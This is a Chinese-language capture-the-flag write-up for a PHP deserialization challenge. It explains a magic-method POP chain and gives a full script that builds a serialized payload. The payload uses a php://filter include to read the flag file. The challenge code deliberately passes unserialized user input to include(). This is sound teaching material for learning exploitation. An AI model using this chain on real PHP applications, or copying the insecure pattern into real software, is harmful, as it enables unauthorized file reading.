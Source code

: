 # 题目  
```php
Happy New Year~ MAKE A WISH
<?php

echo 'Happy New Year~ MAKE A WISH<br>';

if(isset($_GET['wish'])){
    @unserialize($_GET['wish']);
}
else{
    $a=new Road_is_Long;
    highlight_file(__FILE__);
}
/***************************pop your 2022*****************************/

class Road_is_Long{
    public $page;
    public $string;
    public function __construct($file='index.php'){
        $this->page = $file;
    }
    public function __toString(){
        return $this->string->page;
    }

    public function __wakeup(){
        if(preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->page)) {
            echo "You can Not Enter 2022";
            $this->page = "index.php";
        }
    }
}

class Try_Work_Hard{
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Make_a_Change{
    public $effort;
    public function __construct(){
        $this->effort = array();
    }

    public function __get($key){
        $function = $this->effort;
        return $function();
    }
}
/**********************Try to See flag.php*****************************/
```  
- __invoke函数，把类当作函数调用时被调用 
- __get函数在访问私有或者不存在的成员时自动被调用  


# WP  
1. 在Try_Work_Hard类中，有include函数，可以利用它通过php伪协议来对数据流读取，它在__invoke中被调用,
2. 在Make_a_Change类中，__get函数返回一种方法，而__invoke函数在类作为方法时被调用，所以可以通过__get来调用__invoke，需要构造一个Make_a_Change对象，并且$effort为一个Try_Work_Hard对象,并且这个Try_Work_Hard对象的var是要读取的，这里是php://filter/convert.base64-encode/resource=/flag
3. 要调用__get函数，可以通过Road_is_Long对象来调用，Road_is_Long类中有__toString函数，访问了page，而Make_a_Change类中没有page，__get在访问不存在的成员时会被调用，所以需要一个Road_is_Long对象，它的string是一个Make_a_Chang对象
4. __toString函数在类作为字符串使用时自动调用，在Road_is_Long中的__wakeup函数中将page赋值为一个字符串，因此构造的Road_is_Long对象中地方page也是一个Road_is_Long对象。
5. __wakeup函数在类反序列化时自动调用，因此wish应该时是构造出的Road_is_Long对象序列化的字符串。
6. 构造wish如下
```php
<?php
class Road_is_Long{
    public $page;
    public $string;
    public function __construct($file='index.php'){
        $this->page = $file;
    }
    public function __toString(){
        return $this->string->page;
    }

    public function __wakeup(){
        if(preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->page)) {
            echo "You can Not Enter 2022";
            $this->page = "index.php";
        }
    }
}

class Try_Work_Hard{
    protected  $var="php://filter/convert.base64-encode/resource=/flag";
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Make_a_Change{
    public $effort;
    public function __construct(){
        $this->effort = array();
    }

    public function __get($key){
        $function = $this->effort;
        return $function();
    }
}


$t=new Try_Work_Hard();
$m=new Make_a_Change();
$m->effort=$t;
$r1=new Road_is_Long();
$r1->string=$m;
$r2=new Road_is_Long();
$r2->page=$r1;

$wish=serialize($r2);
echo urlencode($wish);
```
注意要使用urlencode，否则会有不可打印字符吗，如果成员是protected修改会出错。  
![alt text](image-1.png)
7. 成功后如下，base64解码即可  
![alt text](image.png)